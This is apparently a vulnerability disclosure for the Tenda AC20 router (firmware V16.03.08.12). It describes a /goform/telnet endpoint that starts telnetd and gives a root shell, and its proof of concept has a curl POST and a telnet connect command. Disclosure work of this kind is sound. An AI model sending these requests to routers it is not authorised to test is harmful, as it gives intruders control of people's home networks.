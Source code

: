 # Tenda AC20 telnet TendaTelnet OS Command Injection

## Summary

A remote command execution vulnerability exists in the Tenda AC20 router (firmware V16.03.08.12), allowing attackers to activate the telnet service via a specific HTTP endpoint. The vulnerability resides in the `TendaTelnet` function, which directly executes system commands to start the telnet service without proper input sanitization, enabling attackers to gain interactive shell access to the router and execute arbitrary commands.

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: https://www.tenda.com.cn/material/show/3264

*   **Component**: `/goform/telnet` (inferred from `websFormDefine("telnet", TendaTelnet);` )

*   **Vulnerability Type**: Command Execution via Service Activation (CWE-78)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability stems from the `TendaTelnet` function, which is bound to the `/goform/telnet` endpoint via `websFormDefine("telnet", TendaTelnet);`. This function is designed to control the telnet service of the router but lacks essential input sanitization for system commands. The function's execution flow directly triggers system commands to enable and start the telnet service, allowing attackers to exploit it via a crafted HTTP request.

Key operations in the `TendaTelnet` function are as follows:



1.  **Parameter Retrieval**: The function calls `GetValue("lan.ip", v17)` to obtain the router's LAN IP address, stored in the `v17` buffer.

2.  **Console Activation**: It enables the system console via `console_control(1)` and sets the `console_switch` configuration to `enable` using `SetValue`, followed by committing the configuration with `CommitCfm()`.

3.  **Telnet Service Management**:

*   It first terminates any existing telnet service instances with `system("killall -9 telnetd")`.

*   It then starts a new telnet service bound to the retrieved LAN IP via `doSystemCmd("telnetd -b %s &", (const char *)v17)`, where `%s` is replaced with the LAN IP from `v17`.

1.  **Response**: The function returns a success message "load telnetd success." via `websWrite` with a 200 HTTP status code.

Critical issues in this flow:

*   Activation of telnetd allows attackers to connect to the router's telnet service and execute arbitrary system commands with root privileges (typical for router environments).

## PoC: Exploit Steps

### 1. Activate Telnet Service

Send a POST request to the `/goform/telnet` endpoint to trigger the `TendaTelnet` function:


```
curl -i -X POST http://192.168.xxx.xxx/goform/telnet --http0.9
```
then ctrl+c quit:
![PoC 2 Result: Root Directory Listing](./imgs/0.png)


### 2. Connect via Telnet

```
telnet 192.168.xxx.xxx 80
```

Successful connection will provide an interactive shell:

![PoC 2 Result: Root Directory Listing](./imgs/1.png)
